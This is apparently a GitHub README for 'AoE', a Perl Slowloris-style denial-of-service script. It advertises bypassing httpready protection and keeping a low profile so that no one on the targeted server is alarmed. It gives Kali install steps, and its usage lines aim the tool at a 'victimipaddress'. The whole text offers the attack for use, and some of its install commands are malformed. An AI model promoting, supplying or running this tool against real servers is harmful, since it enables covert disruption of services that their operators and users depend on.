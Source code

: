 # AoE
A Perl DoS Script

Area of Effect [AoE] both helps identify the timeout windows of a HTTP server or Proxy server, can bypass httpready protection and ultimately performs a fairly low bandwidth denial of service.  It has the added benefit of allowing the server to come back at any time (once the program is killed), and not spamming the logs excessively.  It also keeps the load nice and low on the target server, so other vital processes don't die unexpectedly, or cause alarm to anyone who is logged into the server for other reasons.

Credit to the Author : Laera Loris [Original Script Slowloris]

<br><b>Kali Linux/Installation</b></br>
$ apt-get install update<br>
$ apt-get install upgrade<br>
$ apt-get install perl<br>
$ git clone https://github.com/5inco/AoE.git<br>
$ cd AoE<br>
$ ls<br>
$ perl aoe.pl -h<br>
<br><b>USAGE:</b></br>
$ perl aoe.pl -h<br>
$ perl aoe.pl -dns [www.websiteip.com]<br>
<br><b>EXAMPLE:</b></br>
$ perl aoe.pl -dns xxx.xx.xx.xxx <----victimipaddress<br>
<br>Video Tutorial Link: https://youtu.be/f6I-RnnpIt8</br>
